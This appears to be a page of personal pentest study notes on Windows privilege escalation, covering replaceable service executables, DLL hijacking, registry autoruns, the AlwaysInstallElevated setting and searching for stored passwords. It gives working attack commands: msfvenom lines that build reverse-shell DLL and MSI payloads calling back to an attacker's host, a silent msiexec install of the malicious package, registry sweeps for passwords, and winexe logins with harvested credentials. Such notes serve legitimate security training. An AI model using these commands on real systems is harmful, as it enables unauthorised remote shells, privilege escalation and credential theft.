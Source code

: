 ### Insecure Service Executables
If the original service executable is modifiable by your user, we can simply replace it with our reverse shell executable

use accesscheck - https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk

### DLL Hijacking
Often a service will try to load functionality from DLL.  If we can replace the DLL we can use it to exploit.

Use ProcMon to determine the DLLs the service is trying to load
```
msfvenom -p windows/x64/shell_reverse LHOST=<ip>  LPORT=<port> -f dll  -o [dllname]
```


## Registry Exploits
Windows can be configured to run commands at startup with elevated priviliges
These AutoRuns are configured in the Registry
Replace the exe
Restart may run the program with the permissions of last logged in user


## AlwaysInstallElevated
MSI fules are package files used to install applications
AllwaysInstallElevated must be set to 1 from both local machine
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
and current user:
HKCU\Software\Policies\Microsoft\Windows\Installer


```
winPeASany.exe quiet windowscreds
msfvenom -p windows/x64/shell_reverse LHOST=<ip>  LPORT=<port> -f msi  -o reverse.msi
#Copy to windows
msiexec /quiet /qn /i reverse.msi
```

## Passwords
In cofing files, registry

Registry check
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
winPeasAny.exe quiet filesinfo userinfo
##If credentials found
winexe -U "<user>%<password> //192.168.1.22 cmd.exe
```

### Saved Creds
Runas command
You can use saved creds to runas different users
